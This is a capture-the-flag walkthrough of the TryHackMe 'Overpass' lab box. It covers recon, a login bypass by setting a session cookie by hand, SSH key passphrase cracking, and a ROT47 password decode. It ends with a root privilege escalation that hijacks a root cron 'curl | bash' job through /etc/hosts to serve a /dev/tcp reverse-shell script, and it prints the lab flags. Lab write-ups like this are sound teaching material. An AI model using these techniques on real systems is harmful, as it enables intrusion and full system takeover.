



# THM Overpass

## Recon

Who could have guessed it? Starting with nmap? What?

````Shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ sudo nmap -sV -sC -T4 -A -p- 10.10.94.94 -oA scan

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   2048 37968598d1009c1463d9b03475b1f957 (RSA)

|   256 5375fac065daddb1e8dd40b8f6823924 (ECDSA)

|_  256 1c4ada1f36546da6c61700272e67759c (ED25519)

80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

|_http-title: Overpass

````

ssh and http, lets checkout the webserver. We get a homepage for Overpass password manager, lets checkout the pages

and see if we have anything interesting. About us page has possible usernames

````shell

Our Staff

Ninja - Lead Developer

Pars - Shibe Enthusiast and Emotional Support Animal Manager

Szymex - Head Of Security

Bee - Chief Drinking Water Coordinator

MuirlandOracle - Cryptography Consultant

````

Downloads page has software downloads and source code, maybe the source code has a vuln? Let’s find some directories first before we go down a rabbit whole.

````shell                                                                                                                                                                                    

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ gobuster dir -u http://10.10.94.94 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

/img                  (Status: 301) [Size: 0] [--> img/]

/downloads            (Status: 301) [Size: 0] [--> downloads/]

/aboutus              (Status: 301) [Size: 0] [--> aboutus/]

/admin                (Status: 301) [Size: 42] [--> /admin/]

/css                  (Status: 301) [Size: 0] [--> css/]

````

We found some directories, /admin looks interesting.

/admin contains a login form, maybe sqli?

Lets intercept the request with burp, right click, save item.

stick that into sqlmap.

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ sqlmap -l Req -a

````

This did not turn anything up. Lets look at the source code of this login.

## Initial Access
```

````javascript

async function login() {

    const usernameBox = document.querySelector("#username");

    const passwordBox = document.querySelector("#password");

    const loginStatus = document.querySelector("#loginStatus");

    loginStatus.textContent = ""

    const creds = { username: usernameBox.value, password: passwordBox.value }

    const response = await postData("/api/login", creds)

    const statusOrCookie = await response.text()

    if (statusOrCookie === "Incorrect credentials") {

        loginStatus.textContent = "Incorrect Credentials"

        passwordBox.value=""

    } else {

        Cookies.set("SessionToken",statusOrCookie)

        window.location = "/admin"

    }

}

````

It looks like this javascript handles the login, it says to post the user and pass data to

to /api/login, waits for a response, if the response is not 'Incorrect Credentials' then we get

a token 'statusOrCookie' can we just manually set that cookie?



It worked!! we have access to the admin page.



Looks like we have James's RSA private key, lets try to login with it.

Copy and paste that key into a file and change perms for it.

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ sudo chmod 400 id_rsa.private

````

We forgot something, we can't actually use this private key without the passphrase, its encrypted.
Lets use John to crack it.

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ ssh2john id_rsa.private >> hash.john 

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ john hash.john 

Proceeding with wordlist:/usr/share/john/password.lst

Proceeding with incremental:ASCII

james13          (id_rsa.private) 

````

We got the phrase, now we can actually login with ssh.

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ ssh james@10.10.94.94 -i id_rsa.private

Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1

james@overpass-prod:~$

````

Let’s grab the user flag

````shell

james@overpass-prod:~$ cat user.txt

thm{65c1aaf000506e56996822c6281e6bf7}

````

alright, let’s explore a little

````shell

james@overpass-prod:~$ ls

todo.txt  user.txt

james@overpass-prod:~$ cat todo.txt

To Do:

> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough.

> Write down my password somewhere on a sticky note so that I don't forget it.

  Wait, we make a password manager. Why don't I just use that?

> Test Overpass for macOS, it builds fine but I'm not sure it actually works.

> Ask Paradox how he got the automated build script working and where the builds go.

  They're not updating on the website.

````

James wrote his password on a sticky note? maybe he did that digitally?

let’s look around

````shell

james@overpass-prod:~$ ls -la

total 48

drwxr-xr-x 6 james james 4096 Jun 27  2020 .

drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..

lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null

-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout

-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc

drwx------ 2 james james 4096 Jun 27  2020 .cache

drwx------ 3 james james 4096 Jun 27  2020 .gnupg

drwxrwxr-x 3 james james 4096 Jun 27  2020 .local

-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass

-rw-r--r-- 1 james james  807 Jun 27  2020 .profile

drwx------ 2 james james 4096 Jun 27  2020 .ssh

-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt

-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt

james@overpass-prod:~$ cat .overpass

,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.james@overpass-prod:~$

````

a hidden file named 'overpass' James is probably using his own password manager?

not sure what this is, lets read the source code for overpass to understand how it encrypts passwords.

````

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ less overpass.go

````

this comment is alarming on line 20

````

//Secure encryption algorithm from https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters-example

````

We know ROT is not encryption nor secure, CyberChef for the decode




We got the password!

user: james

pass: saydrawnlyingpicture

## Privilege Escalation

Check sudo perms!

````shell

james@overpass-prod:~$ sudo -l

[sudo] password for james:

Sorry, user james may not run sudo on overpass-prod.

`````

Well that won’t help.

We've inspected lots of source code in this box, if recall a line in todo.txt that could be a hint.

````shell

> Ask Paradox how he got the automated build script working and where the builds go.

  They're not updating on the website.

````

Automated buildscript? considering that this is the prod server maybe this script is running here?

let’s check cron

````shell

james@overpass-prod:~$ cat /etc/crontab

# /etc/crontab: system-wide crontab

# Unlike any other crontab you don't have to run the `crontab'

# command to install the new version when you edit this file

# and files in /etc/cron.d. These files also have username fields,

# that none of the other crontabs do.

SHELL=/bin/sh

PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user             command

17 *       * * *      root    cd / && run-parts --report /etc/cron.hourly

25 6        * * *      root       test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )

47 6        * * 7       root       test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )

52 6        1 * *      root       test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

# Update builds from latest code

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

````

Crontab is running curl as root and piping into bash! It looks like its pointing at a webserver ovepass.thm, which should be in the host file

````shell

james@overpass-prod:~$ cat /etc/hosts

127.0.0.1 localhost

127.0.1.1 overpass-prod

127.0.0.1 overpass.thm

# The following lines are desirable for IPv6 capable hosts

::1     ip6-localhost ip6-loopback

fe00::0 ip6-localnet

ff00::0 ip6-mcastprefix

ff02::1 ip6-allnodes

ff02::2 ip6-allrouters

james@overpass-prod:~$

````

Assuming we can point that overpass.thm entry to our kali box, we should be able to send a root shell.

Lets just make our own script and stick it in the location the cronjob is calling but on our local box with the same directory structure.

Start listener

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ nc -lvnp 420 

listening on [any] 420 ...

````

After making the dir structure, lets make a reverse shell script and name it buildscript.sh

````shell

┌──(kali㉿kali)-[~/Documents/Overpass/web/downloads/src]

└─$ echo 'sh -i >& /dev/tcp/10.6.19.46/420 0>&1' >> buildscript.sh

┌──(kali㉿kali)-[~/Documents/Overpass/web/downloads/src]

└─$ cat buildscript.sh

sh -i >& /dev/tcp/10.6.19.46/420 0>&1

````

Now, we start a webserver to receive the curl request.

````shell

┌──(kali㉿kali)-[~/Documents/Overpass/web]

└─$ python3 -m 'http.server' --cgi 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

````

Now we should be able to edit the /etc/hosts to point to our IP and cross our fingers

```shell

127.0.0.1 localhost

127.0.1.1 overpass-prod

10.6.19.46 overpass.thm

# The following lines are desirable for IPv6 capable hosts

::1     ip6-localhost ip6-loopback

fe00::0 ip6-localnet

ff00::0 ip6-mcastprefix

ff02::1 ip6-allnodes

ff02::2 ip6-allrouters

````

WE GOT A REQUEST

````shell

┌──(kali㉿kali)-[~/Documents/Overpass/web]

└─$ python3 -m 'http.server' --cgi 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

10.10.94.94 - - [03/Feb/2023 21:24:03] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

````

AND ROOT

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ nc -lvnp 420 

listening on [any] 420 ...

connect to [10.6.19.46] from (UNKNOWN) [10.10.94.94] 36740

sh: 0: can't access tty; job control turned off

# whoami

root

#

````

Grab the root flag

````shell

# ls

buildStatus
builds
go
root.txt
src
# cat root.txt     

thm{7f336f8c359dbac18d54fdd64ea753bb}

````

This box was super fun, I enjoyed looking at the js for initial access and the coolest part was the curl privesc,

there’s something so satisfying about seeing the web request come in and spawn a root shell on the netcat session.
